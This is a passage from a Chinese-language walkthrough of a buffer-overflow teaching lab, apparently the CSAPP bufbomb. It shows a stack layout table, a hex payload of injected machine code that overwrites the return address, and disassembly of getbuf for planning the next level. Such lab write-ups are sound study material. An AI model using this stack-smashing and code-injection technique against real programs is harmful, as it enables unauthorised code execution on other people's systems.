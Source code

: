 应当构造如下结构：

| 地址          | 解释                                   |
| ------------- | -------------------------------------- |
| 返回地址      | 应当覆盖为我们输入缓冲区的首地址       |
| ebp           | - 占用4字节                            |
| ...           | ...                                    |
| ebp - 40 字节 | buf 数组的初始地址，从这里开始注入代码 |
| ...           | ...                                    |
| ebp - 0x38    | esp，栈帧首地址                        |

在程序运行到 lea 语句之后，使用 `info registers` 获得 eax 的地址为 0x556830e8。注意到这里 eax 里的地址也是缓冲区的首地址。所以需要先在缓冲区的前面几个字节就注入汇编代码，然后在 44 字节之后注入缓冲区的起点地址，让程序跳转回来。

结合以上信息，构造下列答案：

```
c7 05 00 d1 04 08 70 5a
2d 36 68 9d 8c 04 08 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 e8 30 68 55 0a
```
成功通过。

<img src='2019-05-06-21-59-24.png' width = 600px />

## Level 3: Dynamite

**目标：这个 Level 要求我们注入一段能够修改 getbuf 返回值的代码，返回值从 1 改成 cookie 值，此外还需要还原所有破坏，继续运行 test 的剩下部分。**

同样回到 getbuff 的汇编代码：

```s
080491f4 <getbuf>:
80491f4:	55                   	push   %ebp
80491f5:	89 e5                	mov    %esp,%ebp
80491f7:	83 ec 38             	sub    $0x38,%esp
80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
80491fd:	89 04 24             	mov    %eax,(%esp)
8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
8049205:	b8 01 00 00 00       	mov    $0x1,%eax
804920a:	c9                   	leave  
804920b:	c3                   	ret  
```
注意到在 Gets 之后，eax 会被修改为 1，所以在正常情况下函数总会返回 1。而为了改变这一行需要我们手动修改 eax 为 coockie，所以需要注入一段代码，首先手动设置 eax 为 cookie，然后将返回地址设置为 test 在调用了 getbuf 之后的下一行 0x08048dbe
